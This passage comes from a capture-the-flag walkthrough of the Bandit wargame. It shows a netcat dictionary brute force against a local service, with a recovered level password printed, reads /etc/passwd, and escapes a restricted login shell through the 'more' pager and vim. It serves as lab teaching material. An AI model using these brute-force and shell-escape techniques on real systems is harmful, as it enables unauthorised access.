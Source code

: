 With this new dictionary file and netcat, the pleasure is served
```bash
# We remove the lines with 'Wrong' and 'Please' to avoid overwhelm the terminal outputº
cat dictionary.txt | nc localhost 30002 | grep -eV "Wrong|Please"

# And now just wait until this message appears
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting
```
# Level 25
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

This level is to practice on the concept of 'jail shell', in this case we're going to take in advantage the more command the is using the actual bash of bandit26. If we take a look what bash this user have we must see:
```bash
cat /etc/passwd | grep bandit26
# bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
If we open the content of the showtext 

cat /usr/bin/showtext
# #!/bin/sh

# export TERM=linux

# more ~/text.txt
#exit 
```
Yeah, let's exploit this more with a jail shell. If you try to connect via ssh with the key we have in our home directory the connection into localhost is closed
```bash
ssh -i ./bandit26.ssh_key bandit26@localhost
# Connection to localhost is closed
```
Just move the terminal to be very minimal and try to connect via ssh, if you did this correctly, you should see a 'More 50% text' that is the pagination of the more command, from here we can spawn the vim code editor with the key 'v'.

From here just:
```bash
:set shell=/bin/bash

# and then 
:shell
```
Perfect, bash spawned, get the flag but don't exit the server because this is the only way to access bandit26 level`
# Level 26
Good job getting a shell! Now hurry and grab the password for bandit27!
